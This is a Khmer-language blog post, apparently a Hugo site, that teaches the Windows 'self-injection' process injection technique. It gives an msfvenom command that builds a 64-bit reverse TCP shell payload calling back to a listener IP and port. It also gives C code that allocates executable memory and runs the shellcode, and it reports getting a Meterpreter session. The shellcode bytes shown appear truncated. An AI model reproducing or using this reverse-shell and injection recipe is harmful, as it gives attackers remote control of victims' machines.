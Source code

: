 ```yaml
---
title: "Process Injection - Self Injection Method"
date: 2023-06-20T21:01:06+07:00
description: ចាក់បញ្ជូល Shellcode ក្នុង Process ដោយប្រើវិធីសាស្ត្រ Self Injection
draft: false
hideToc: false
enableToc: true
enableTocContent: false
author: thik
authorEmoji: 🐱
tags: 
- c-shellcode
categories:
- Process Injection
series:
- WinExE
image: images/feature3/terminal.gif
---
```


#### Self-Injection Payload

ខាងក្រោមជាដំណើរការបង្កើត Payload ដោយប្រើប្រាស់ Shellcode ជាភាសារ C គោលដៅលើម៉ាស៊ីន 64 bit ។

{{< highlight bash "linenos=table" >}}
msfvenom -p windows/x64/shell_reverse_tcp lhost=192.168.60.136 lport=4433 -f c
{{< / highlight >}}

បន្ទាប់មកយើងនឹង Compile Payload ធម្មតាដោយប្រើប្រាស់វិធីសាស្ត្រ Process Injection តាមបែប Slef-Injection ដោយផ្ដល់សិទ្ធតាមលំនាំដើម Read, Write និង Execute ។

{{< highlight cpp "linenos=table" >}}
#include <stdio.h>
#include <Windows.h>

int main()
{
    unsigned char shellcode[] =
		"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
		"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
		"\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb"
		"\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";

    void* exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(exec, shellcode, sizeof shellcode);
    ((void(*)())exec)();

    return 0;
}
{{< / highlight >}}

ដើម្បី Compile យើងអាចប្រើប្រាស់កម្មវិធីផ្សេងៗជាច្រើន តែសម្រាប់ខ្ញុំៗប្រើប្រាស់ [Embarcadero Dev-C++](https://github.com/Embarcadero/Dev-Cpp/releases) ដើម្បីដំណើរការបង្កើត ។

ដោយសាកល្បងដំណើរការ Payload នេះយើងនឹងទទួលបាន Meterpreter ដូចដែលយើងរំពឹងទុក ។
![Meterpreter](/en/posts/img/2023/06/self-injection-method/meterpreter.png)
![Self Injection](/en/posts/img/2023/06/self-injection-method/self-injection.png)
